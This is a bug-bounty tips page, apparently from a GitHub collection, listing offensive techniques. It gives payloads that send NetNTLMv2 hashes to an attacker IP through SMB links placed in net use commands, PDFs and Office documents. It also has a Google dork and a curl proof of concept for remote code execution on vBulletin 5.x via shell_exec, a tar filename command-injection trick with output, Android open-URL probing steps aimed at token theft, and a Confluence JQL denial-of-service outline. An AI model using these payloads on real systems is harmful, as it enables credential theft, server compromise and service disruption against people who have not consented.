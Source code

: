 - https://twitter.com/ofjaaah/status/1302713182964809728?s=20
- https://twitter.com/ofjaaah/status/1302524437091291138?s=20
- https://twitter.com/ofjaaah/status/1303030877560209409?s=20

### Steal NetNTLMv2 hashes by changing SMB PORT
```powershell
net use \\IP@80\t
or pdf: /F(\\\\IP@80\\t)
or subdoc: ///IP@80/t
or doc: Target="file://IP@80/t.dotx"
or Ink:URL=file://IP@80/t.htm
```
### RCE on Bulletin 5xx
#### Google Dork
intext: "Powered by vBulletin"
##### Proof of Concept
```sh
curl -s http://SITE/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id");exit;'
```
### RCE via .tar File
#### Tip
```sh
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''id;'
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ ls
''$'\n''id;'  ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ tar -cf run.tar *
thevillagehacker@village:|02:49 PM|~/test$ chmod +x run.tar
thevillagehacker@village:|02:50 PM|~/test$ ./run.tar
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
./run.tar: line 2: 0000666000175000017500000000000013735317455011347: command not found
total 12
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''id;'
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''ls -l;'
-rwxrwxrwx 1 hacker hacker 10240 Oct  1 14:49  run.tar
./run.tar: line 3: 0000666000175000017500000000000013735317463011661: command not found
```
###### For Better Look
![RCE](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Writeups/Bug-Bounty-Tips/img/RCE.png)
### Looking for an easy way to open arbitrary URLs in Android apps?
1. Download jadx decompiler and install adb
2. Open AndroidManifest.xml
3. Find all browser activities (must contain `<category android:name="android.intent.category.BROWSABLE"/>`)
4. Run "adb shell am start -n app_package_name/component_name -a android.intent.action.VIEW -d http://google.com" for each of the activities (or any of your domains). Also track in Burp any requests to http://google.com or your domain
5. If a domain is opened, it means you found a vulnerability! Now inspect the request if it contains any auth tokens (if yes, it means you've got an account takeover!). No? Try different techniques to obtain any PII. In the worst case you will get a reward like for an XSS
6. If you can just open arbitrary links in an app. And use http://google.com (remove the space) in the 4 step.
### Application Level DOS Confluence 7.6.2
1. Direct to site, site.atlassian.net
2. Parameter with following endpoint `/issues/?jql=`
3. Craft any Payload with it and search using jql=
4. Final URL `site.atlassian.Net/issues?jql=<payload-here>`